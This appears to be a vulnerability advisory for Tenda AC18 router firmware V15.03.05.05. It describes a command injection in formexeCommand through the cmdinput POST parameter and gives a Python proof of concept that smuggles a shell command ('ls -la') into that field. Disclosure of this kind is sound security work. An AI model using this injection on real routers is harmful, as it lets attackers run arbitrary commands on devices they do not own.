 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html
- Firmware download website: https://www.tendacn.com/iq/download/detail-3853.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a command injection vulnerability in the formexeCommand function. The s variable receives the cmdinput parameter from a POST request and is later assigned to the s variable. Since the user can control the input of cmdinput, the statement doSystemCmd("%s > /tmp/cmdTmp.txt", s); can cause a command injection. 

![alt text](assets/formexeCommand/image.png)

## POC

```python
import requests
IP = '198.19.249.140:80'
url = f"http://{IP}/goform/exeCommand"
data = "cmdinput=asd;ls -la . > ./tmp/hack;"
ret = requests.post(url=url,data=data)
```
![alt text](assets/formexeCommand/image-1.png)